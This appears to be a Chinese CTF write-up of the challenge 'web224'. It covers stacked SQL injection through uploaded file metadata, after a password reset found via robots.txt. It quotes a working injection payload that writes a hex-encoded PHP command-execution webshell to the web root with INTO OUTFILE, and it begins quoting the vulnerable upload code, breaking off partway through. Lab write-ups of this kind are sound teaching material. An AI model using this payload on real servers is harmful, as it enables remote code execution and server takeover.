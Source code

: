 ## ⭐⭐web224 文件上传注入

这个有意思 文件上传注入

原型是 [你没见过的注入](https://www.cnblogs.com/N0ri/p/14228343.html) 

原理其实是 上传文件后，后端通过读取文件信息 存入数据库 造成的堆叠注入

所以这里我们首先需要猜测内容

我们来做一下

拿到题目 目录扫描



<img src="https://i-blog.csdnimg.cn/blog_migrate/80f4d1b1118ef4d2b97ea825d362366e.png" alt="" style="max-height:176px; box-sizing:content-box;" />


发现君子协议 然后会获取到重置密码的界面

```cobol
User-agent: *
Disallow: /pwdreset.php
```

重置完直接登入



<img src="https://i-blog.csdnimg.cn/blog_migrate/7c584ec6f0fb8e24d560b10a70dd36bb.png" alt="" style="max-height:145px; box-sizing:content-box;" />


发现是文件上传 但是不能上传图片和php 只能zip

我们首先尝试上传一下



<img src="https://i-blog.csdnimg.cn/blog_migrate/92ae88c0c3c9ac90b69df317df7cb4f3.png" alt="" style="max-height:126px; box-sizing:content-box;" />


上传成功了 这里只能下载文件 并且后面是文件的信息

所以这里是无法实现注入 的

但是我们应该思考 这里为什么可以获取到文件信息

一定是存到数据库 然后读取前端回显



这里有点不知道为什么

我们首先拿别的师傅payload getshell一下

然后下载代码看看

```cobol
C64File "');select 0x3c3f3d60245f504f53545b315d603f3e into outfile '/var/www/html/3.php';--+
```

```php
<?php
	error_reporting(0);
	if ($_FILES["file"]["error"] > 0)
	{
		die("Return Code: " . $_FILES["file"]["error"] . "<br />");
	}
	if($_FILES["file"]["size"]>10*1024){
		die("文件过大: " .($_FILES["file"]["size"] / 1024) . " Kb<br />");
	}
 
    if (file_exists("upload/" . $_FILES["file"]["name"]))
      {
      echo $_FILES["file"]["name"] . " already exists. ";
      }
```